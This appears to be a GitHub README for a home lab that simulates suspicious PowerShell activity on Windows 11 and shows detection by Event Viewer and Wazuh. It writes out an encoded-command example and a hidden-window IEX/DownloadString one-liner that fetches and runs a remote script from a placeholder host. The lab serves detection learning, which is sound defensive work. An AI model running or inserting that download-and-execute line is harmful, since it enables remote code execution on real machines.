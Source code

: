 # powershell-sus-activity-lab
## Overview
This lab simulates suspicious PowerShell activity on a Windows 11 endpoint and demonstrates how it is logged in Event Viewer and detected by Wazuh SIEM.

It’s designed as part of a broader cybersecurity home lab focused on learning how to detect malicious behavior in enterprise environments.

---

## Lab Environment

- **Endpoint**: Windows 11 (Test Machine)
- **SIEM**: Wazuh Server
- **Logging Sources**: Windows Event Viewer, Wazuh Alerts

---

## Simulation 1: Encoded PowerShell Command

### Command:
```powershell
powershell -EncodedCommand aABpAA==
```

---

This command executes _hi_ using Base64-encoded input, simulating obfuscation — a common attacker tactic.

### Detection:
- **Event Viewer:** Captured Event ID 4688 (Process Creation)

- **Wazuh:** Detected suspicious EncodedCommand usage

  - **Alert Level:** 5

---

## Simulation 2: Remote Script Execution

### Command:
```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://testsite/malicious.ps1')"
```

---

This mimics an attacker downloading and executing a remote script using PowerShell.

### Detection:
- **Event Viewer:**

  - Event ID 4104 (Script Block Logging)

  - Event ID 4688 (Process Creation)

- **Wazuh:** Alert triggered due to suspicious use of IEX and DownloadString

  - Alert Level:10

---

## Key Takeaways
PowerShell is a powerful tool often abused in attacks.

- Encoded commands and remote script execution are red flags.

- Windows and Wazuh can detect and log these behaviors with proper configuration.

- This lab reinforces detection strategy for common PowerShell-based threats.
